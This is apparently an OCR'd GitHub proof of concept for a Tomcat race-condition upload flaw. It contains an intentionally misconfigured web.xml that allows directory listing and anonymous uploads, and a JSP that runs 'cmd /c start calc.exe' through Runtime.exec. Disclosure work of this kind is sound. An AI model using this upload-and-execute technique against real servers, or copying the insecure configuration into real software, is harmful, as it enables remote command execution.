     <!-- Directory Browsing Enabled -->
    <init-param>
        <param-name>listings</param-name>
        <param-value>true</param-value>
    </init-param>

    <!-- Application Security Constraints (Optional and misconfigured) -->
    <security-constraint>
        <web-resource-collection>
            <web-resource-name>Unrestricted Uploads</web-resource-name>
            <url-pattern>/uploads/*</url-pattern>
        </web-resource-collection>
        <auth-constraint>
            <role-name>*</role-name> <!-- No restriction, allowing anonymous access -->
        </auth-constraint>
    </security-constraint>




</web-app>
P.S.: This vulnerability can only be exploited if specific changes are made to the web.xml file configuration. By default, the readonly parameter in Tomcat's DefaultServlet is set to true, which prevents write operations. Exploitation becomes possible only if this parameter is explicitly set to false, allowing write access to the servlet. Always review and secure your server configurations to mitigate such risks.

Exploiting the Race Condition
Upload a Harmless JSP File
Upload a simple hello.jsp file containing:

<% out.println("Hello, World!"); %>
Create a Malicious JSP File
Prepare a malicious JSP file (HELLO.JSP) to exploit the vulnerability:

<%@ page import="java.io.*" %>
<!DOCTYPE html>
<html>
<head>
    <title>Hello World JSP</title>
</head>
<body>
    <h1>Hello, World!</h1>
    <%
        try {
            // Execute the command to open calc.exe
            Process process = Runtime.getRuntime().exec("cmd /c start calc.exe");
            out.println("<p>Calculator has been opened successfully (if the server is running on Windows).</p>");
        } catch (Exception e) {
            out.println("<p>Error while opening calculator: " + e.getMessage() + "</p>");
        }
    %>
</body>
</html>
This file will open the Windows calculator (calc.exe) upon execution.
